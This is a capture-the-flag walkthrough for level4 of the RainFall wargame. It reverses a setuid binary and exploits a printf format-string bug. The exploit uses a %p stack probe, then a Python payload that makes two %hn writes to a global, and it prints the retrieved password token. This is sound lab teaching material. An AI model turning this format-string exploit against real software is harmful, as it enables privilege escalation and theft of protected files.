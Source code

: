 # Walkthrough

## Program type:
Running the command `file ./level4` we see the file is 32-bit ELF
executable.
```
level4@RainFall:~$ file ./level4
./level4: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf8cb2bdaa7daab1347b36aaf1c98d49529c605db, not stripped
```
Running the command `checksec --file ./level4, we see that the stack is
executable (NX disabled).
```
level4@RainFall:~$ checksec --file ./level4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level4
```
## Content:
```
08048444 <p>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
 8048455:	c9                   	leave
 8048456:	c3                   	ret

08048457 <n>:
 8048457:	55                   	push   ebp
 8048458:	89 e5                	mov    ebp,esp
 804845a:	81 ec 18 02 00 00    	sub    esp,0x218
 8048460:	a1 04 98 04 08       	mov    eax,ds:0x8049804
 8048465:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048469:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 8048470:	00
 8048471:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 8048477:	89 04 24             	mov    DWORD PTR [esp],eax
 804847a:	e8 d1 fe ff ff       	call   8048350 <fgets@plt>
 804847f:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 8048485:	89 04 24             	mov    DWORD PTR [esp],eax
 8048488:	e8 b7 ff ff ff       	call   8048444 <p>
 804848d:	a1 10 98 04 08       	mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01       	cmp    eax,0x1025544
 8048497:	75 0c                	jne    80484a5 <n+0x4e>
 8048499:	c7 04 24 90 85 04 08 	mov    DWORD PTR [esp],0x8048590
 80484a0:	e8 bb fe ff ff       	call   8048360 <system@plt>
 80484a5:	c9                   	leave
 80484a6:	c3                   	ret

080484a7 <main>:
 80484a7:	55                   	push   ebp
 80484a8:	89 e5                	mov    ebp,esp
 80484aa:	83 e4 f0             	and    esp,0xfffffff0
 80484ad:	e8 a5 ff ff ff       	call   8048457 <n>
 80484b2:	c9                   	leave
 80484b3:	c3                   	ret
```
* There's three functions [`main`, `n`, `p`].
* The content of the function `n` is almost the same as the previous level, the 
difference being that instead of having the function printf(1) in the 
function `n` it's now in `p`, which makes it even further from the target
buffer.
* There's a comparison between the value `0x1025544` (16930116 in decimal) and
a global variable, and if they are equal a `system(3)` call that will execute the `cat` command on the token file.

## Reversing:
Upon analyzing the disassembly code we concluded that the actual C code could be something as follows:
```C
#include <stdio.h>

int	some_variable = 0x0;

void	p(char *buffer)
{
	printf(buffer);
}

void	n()
{
	char	buffer[520]; // ebp - 0x208

	fgets(buffer, 512, stdin);
	p(buffer);
	if (some_variable == 0x1025544)
		system("/bin/cat /home/user/level5/.pass");
}

int		main()
{
	n();
	return (0);
}
```

## Solution:
* There's two problems in this case:
	* The first is that the compared value  is big (in comparison to the previous level 0x40)
	* The second is that the call to printf(1) is far from the buffer.
* To solve the first problem we need to split the load of writting to the 
`stdout` so that we don't have to write millions of bytes, so we will write 
to the left 2-bytes 258 bytes (0x102 in the compared value) and
then write to the right 2-bytes 21828 bytes (0x5544 in the compared value) using the %hn format specifier.
* Now the only thing that remains is to figure out the location of the target buffer on stack:
	*	To do so, we can use a string like after we run the program:
	```
		AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p
	```	
	*	which will result in this:
	```
	level4@RainFall:~$ ./level4
	AAAA %p %p %p %p %p %p %p %p %p %p %p %p
	AAAA 0xb7ff26b0 0xbffff744 0xb7fd0ff4 (nil) (nil) 0xbffff708 0x804848d 0xbffff500 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
	```
	*	The value `0x41414141` that we see on the last printed value is the hexadecimal
		representation if the word `"AAAA"`, and the hex values that comes before it
		are the content of the double words on the stack litterally before the call
		to the function `printf(1)`.

	*	If we replaced the word "AAAA" with an actual address and counted from the 
		beginning to it's hexadecimal representation, we can give that number to 
		the specifier %n so it will write to that specific address.
	*	Since the number needed to pass the if condition is big we will actually write into that 		address in two steps, writing two bytes on respectively the least significant
		and most significant bytes using the format specifier %hn.
* Now lets write the python script that will enable us to access the shell using that vulnerability:
```python
import struct

target_1 = struct.pack('I', 0x8049810)
target_2 = struct.pack('I', 0x8049812)

print target_1 + target_2 + "%250x%13$hn%21570x%12$hn"

```
* Running the exploit will give us the token content:
```
level4@RainFall:~$ (python exp.py ; cat -) | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```